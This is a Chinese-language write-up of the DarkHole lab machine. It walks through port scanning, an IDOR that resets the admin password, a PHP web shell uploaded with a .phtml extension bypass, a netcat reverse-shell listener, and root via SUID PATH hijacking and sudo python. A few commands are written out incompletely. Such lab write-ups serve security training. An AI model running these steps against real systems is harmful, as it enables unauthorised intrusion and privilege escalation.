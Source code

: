 # DarkHole 靶场

## 主机发现

```
sudo nmap -sn 10.10.10.0/24
```

![[Pasted image 20250510191307.png]]

靶机的主机为 10.10.10.9

## 服务识别

使用 nmap 对靶机进行扫描，寻找靶机开放的端口以便于进行更进一步的渗透测试

扫描开放的端口
```
sudo nmap --min-rate 10000 -p- 10.10.10.9
```

![[Pasted image 20250510191339.png]]

扫描开放端口的基本信息，并将结果保存到本地以便于随时观看
```
sudo nmap -sT -sC -sV -p22,80 10.10.10.9 -oA nmap/Scan
```

![[Pasted image 20250510191423.png]]

使用 nmap 进行默认的漏洞脚本扫描，并将结果保存到本地
```
sudo nmap --script=vuln -p22,80 10.10.10.9 -oA nmap/Script
```

![[Pasted image 20250510191455.png]]

发现暴露出了很多目录，执行一下完整的目录爆破

```
sudo gobuster dir -u /usr/share/dirb/wordlists/common.txt 
```

![[Pasted image 20250510191642.png]]

除了 index.php 其他都是文件目录，
upload 可能是文件上传的目录

![[Pasted image 20250510191831.png]]

## WEB渗透

### 80 端口渗透

打开 80 页面

![[Pasted image 20250510191856.png]]

View Details 点击没反应，
进入 Login 页面

![[Pasted image 20250510191950.png]]

尝试一下弱密码和万能密码没成功，
点击下方 Sign up now 注册一个账号试试

![[Pasted image 20250510192123.png]]

如图随便输入注册一个账号试试

```
admin12345
admin12345@gmail
admin12345
```

进入后台

![[Pasted image 20250510192414.png]]

### 越权

通过尝试发现这个界面实现的是更新功能，
可以更新 Detalis 和 Password，
提交一个新的 Password 的同时抓包分析一下

![[Pasted image 20250510192639.png]]

发现 id 处是 3 ，
可能存在越权漏洞，
猜测后台根据注册顺序来赋予 id，
id=1 或 0 极有可能是 root 或 拥有 root 权限 
先将 id 修改为 1 试试，
提交

提示我们 Password 已改变（没截到图）

那我们就切换账号试试看

![[Pasted image 20250510193041.png]]

分别尝试一下 root 和 admin，
果然，admin 登入成功了

![[Pasted image 20250510193128.png]]

看见有一个文件上传点，
上传一个 php 后门试试

![[Pasted image 20250510193228.png]]

提示只能上传 jpg , png , gif 格式的文件，
尝试使用罕见的后缀名上传文件，
以下是可能的 后缀名

```
.php
.php3
.php4
.php5
.php7

# Less known PHP extensions
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

在尝试后，
最终上传了一个 phtml 的文件是可以执行的，
使用的是 kali 自带的 payload，
可以在 /upload 中查看

![[Pasted image 20250510193555.png]]

## Linux 提权

kali 建立 nc 监听

```
sudo nc -lvnp 4444
```

执行 payload 获得回显

![[Pasted image 20250510193802.png]]

使用 python3 获得更好的 shell 环境

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

基本枚举查看信息

![[Pasted image 20250510194002.png]]

在前面目录爆破的时候看到 config 目录下有一个 php 文件，搜索出来看一下

![[Pasted image 20250510194242.png]]

```
find / -name database.php
```

![[Pasted image 20250510194348.png]]

```
cd /var/www/html/config/
ls
cat database.php
```

![[Pasted image 20250510194433.png]]

说明了 john 和 darkhole 两个用户可能有价值

查看一下 shadow 或者 passwd 的执行权限，
shadow 没有任何权限，passwd 有读取的权限，

```
ls -liah /etc/passwd
```

![[Pasted image 20250510194647.png]]

读取一下，提取出拥有 /bin/bash 的用户

```
/etc/passwd | grep "/bin/bash"
```

![[Pasted image 20250510194814.png]]

查看具有 s 位的可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```

发现 john 拥有一个具有 s 位的 可执行文件

![[Pasted image 20250510194911.png]]

运行一下看看

![[Pasted image 20250510194940.png]]

尝试一下在执行 toto 之前塞一个 /bin/bash 到环境变量切换到 john 用户

```
echo "/bin/bash" > /tmp/cdt
chmod 777 /tmp/cdt
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
/home/john/toto
```

成功切换

![[Pasted image 20250510195352.png]]

进入 john 用户文件夹

```
cd ../../../../../../../home/john
```

![[Pasted image 20250510195443.png]]

查看一下 password 文件

![[Pasted image 20250510195554.png]]

john 的密码是 root123，
查看一下sudo -l

![[Pasted image 20250510195638.png]]

发现可以免密执行 sudo 的 python3 和 file.py

塞一个切换 bash 的命令 给 file.py 实现提权

```
echo "import pty;pty.spawn('/bin/bash')" > file.py
cat file.py
sudo python3 /home/john/file.py
```

拿下机器

![[Pasted image 20250510200024.png]]

## 总结

这台靶机的难度中等偏下，
文件上传的时候需要一些经验和尝试，
linux 提权的时候要了解 suid 环境变量提权